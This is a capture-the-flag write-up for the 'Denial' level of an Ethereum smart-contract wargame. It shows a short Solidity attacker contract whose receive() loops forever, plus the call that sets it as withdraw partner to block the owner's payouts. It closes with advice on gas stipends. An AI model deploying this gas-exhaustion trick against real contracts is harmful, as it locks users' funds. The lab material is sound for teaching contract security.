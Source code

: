 # 20. Denial
<sup>Difficulty 5/10</sup>

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## Solution

We need to create a Denial of Service and negate the withdraw function.

```solidity
// withdraw 1% to recipient and 1% to owner
function withdraw() public {
    uint amountToSend = address(this).balance.div(100);
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value:amountToSend}("");
    owner.transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = now;
    withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
}
```

The first transfer performed is in favor of a `partner` and uses the `call` function. We can set the `partner` via the `setWithdrawPartner` function.

```solidity
function setWithdrawPartner(address _partner) public {
    partner = _partner;
}
```

Nothing easier. Create a simple contract that exhaust the gas in the fallback function, and deploy it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract Denial {
    receive() external payable {
        while (true) {}
    }
}
```

Then set the partner and submit the instance

```javascript
await contract.setWithdrawPartner('0xA131a41B7ac24244e3E03478Ed8772995B101Cb0')
```

```
☜Ҩ.¬_¬.Ҩ☞ Well done, You have completed this level!!!
```

## OZ Corner

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
